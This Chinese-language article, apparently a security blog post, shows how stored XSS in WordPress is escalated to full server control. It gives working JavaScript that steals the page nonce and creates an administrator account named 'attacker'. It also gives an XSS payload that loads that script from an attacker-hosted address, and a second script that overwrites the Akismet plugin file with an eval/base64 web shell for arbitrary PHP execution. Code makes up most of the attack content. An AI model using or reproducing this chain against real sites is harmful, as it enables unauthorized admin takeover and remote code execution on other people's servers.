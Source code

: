 # 从xss到getshell xss的深层次利用与探讨

今天我们的网站上公布了大量的wp的xss，那么这篇文章就是深入探讨如何深入利用xss。

如果师傅们有什么新的思路或者姿势。可以通过邮箱联系我们进行讨论与交流

联系邮箱：ian@lcx.cc

通过js文件添加wp系统管理员

**1、创建管理账号**

举个例子，攻击者可以在其Web服务器上托管JavaScript文件，例如wpaddadmin [.] js（在链接中描述）。此JavaScript代码将添加一个WordPress管理员帐户，其用户名为“ attacker”，密码为“ attacker”。


```js
// Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
var ajaxRequest = new XMLHttpRequest();  
var requestURL = "/wordpress/wp-admin/user-new.php";  
var nonceRegex = /ser" value="([^"]*?)"/g;  
ajaxRequest.open("GET", requestURL, false);  
ajaxRequest.send();  
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
var nonce = nonceMatch[1];  
  
// Construct a POST query, using the previously extracted 'nonce' value, and create a new user with an arbitrary username / password, as an Administrator  
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com&pass1=attacker&pass2=attacker&role=administrator";  
ajaxRequest = new XMLHttpRequest();  
ajaxRequest.open("POST", requestURL, true);  
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");  
ajaxRequest.send(params);  
```

然后，攻击者可以使用以下PoC插入JavaScript。


```js
“"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;”
```

图1.插入XSS代码以添加管理员帐户

![](images/15896405045633.png)


具有高权限的受害者查看此帖子后，将创建管理员帐户“攻击者”。

图2. XSS代码被执行

![](images/15896405121541.png)


图3. XSS代码创建的具有管理员权限的“攻击者”帐户

![](images/15896405196209.png)


然后，攻击者可以将现有的php文件修改为Webshel​​l，并使用该Webshel​​l来控制Web服务器。

图4.使用攻击者的帐户添加一个Web Shell

![](images/15896405281024.png)


图5.控制Web服务器

![](images/15896405356103.png)


2、恶意命令执行


```js
// Send a GET request to the URL '/wp-admin/plugin-editor.php?akisment/index.php', and extract the current 'nonce' value
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/plugin-editor.php?file=akismet/index.php"
var nonceRegex = /ce" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];

// Construct a POST query, using the previously extracted 'nonce' value, and update the content of the file 'akismet/index.php' with our tiny web shell
var params = "_wpnonce="+nonce+"&newcontent=<?php eval(base64_decode($_REQUEST['x']));&action=update&file=akismet/index.php"
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

一旦此XSS被管理用户触发，我们应该能够通过向脚本


```
http://url/wp-content/plugins/akismet/index.php
```

发送GET / POST请求来执行任意PHP代码，其中参数“ x”等于我们的PHP代码的“ base64_encode”。